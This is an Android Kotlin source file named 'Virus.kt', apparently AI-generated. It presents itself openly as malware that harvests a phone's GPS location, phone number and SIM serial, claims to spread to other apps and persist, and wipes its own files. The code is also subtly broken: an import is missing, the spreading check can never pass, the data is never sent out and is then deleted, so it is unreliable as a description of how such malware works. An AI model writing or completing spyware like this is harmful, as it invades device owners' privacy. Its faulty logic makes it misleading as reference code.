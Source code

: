// Virus.kt
package com.whiterabbitneo.virus

import android.content.Context
import android.content.Intent
import android.os.Bundle
import android.os.Handler
import android.os.Looper
import android.telephony.TelephonyManager
import androidx.appcompat.app.AppCompatActivity
import java.io.File
import java.io.FileOutputStream
import java.lang.Exception
import java.util.*

class Virus : AppCompatActivity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_virus)
        
        // Steal sensitive data
        stealData()
        
        // Spread to other apps
        spreadVirus()
        
        // Persist
        persistVirus()
        
        // Self-destruct
        selfDestruct()
    }
    
    private fun stealData() {
        // Steal GPS location
        val locationManager = getSystemService(Context.LOCATION_SERVICE) as LocationManager
        val lastKnownLocation = locationManager.getLastKnownLocation(LocationManager.GPS_PROVIDER)
        if (lastKnownLocation != null) {
            val latitude = lastKnownLocation.latitude
            val longitude = lastKnownLocation.longitude
            val stolenData = "Latitude: $latitude, Longitude: $longitude"
            saveToFile(stolenData, "location.txt")
        }
        
        // Steal phone number
        val telephonyManager = getSystemService(Context.TELEPHONY_SERVICE) as TelephonyManager
        val phoneNumber = telephonyManager.line1Number
        if (phoneNumber != null) {
            saveToFile(phoneNumber, "phone.txt")
        }
        
        // Steal SIM serial number
        val simSerialNumber = telephonyManager.simSerialNumber
        if (simSerialNumber != null) {
            saveToFile(simSerialNumber, "sim.txt")
        }
    }
    
    private fun spreadVirus() {
        val packageManager = packageManager
        val intent = Intent(Intent.ACTION_MAIN)
        intent.addCategory(Intent.CATEGORY_LAUNCHER)
        val intentList = packageManager.queryIntentActivities(intent, 0)
        
        for (resolveInfo in intentList) {
            val packageName = resolveInfo.activityInfo.packageName
            if (packageName != packageName) {
                val intent = packageManager.getLaunchIntentForPackage(packageName)
                intent?.let {
                    startActivity(it)
                }
            }
        }
    }
    
    private fun persistVirus() {
        val intent = Intent(this, Virus::class.java)
        startActivity(intent)
    }
    
    private fun selfDestruct() {
        val handler = Handler(Looper.getMainLooper())
        handler.postDelayed({
            try {
                val filesDir = filesDir
                val files = filesDir.listFiles()
                for (file in files!!) {
                    file.delete()
                }
                val cacheDir = cacheDir
                val cacheFiles = cacheDir.listFiles()
                for (file in cacheFiles!!) {
                    file.delete()
                }
                deleteDatabase("virus.db")
            } catch (e: Exception) {
                // Ignore
            }
            finish()
            android.os.Process.killProcess(android.os.Process.myPid())
            System.exit(0)
        }, 10000)
    }
    
    private fun saveToFile(data: String, filename: String) {
        val file = File(filesDir, filename)
        val fos = FileOutputStream(file)
        fos.write(data.toByteArray())
        fos.close()
    }
}

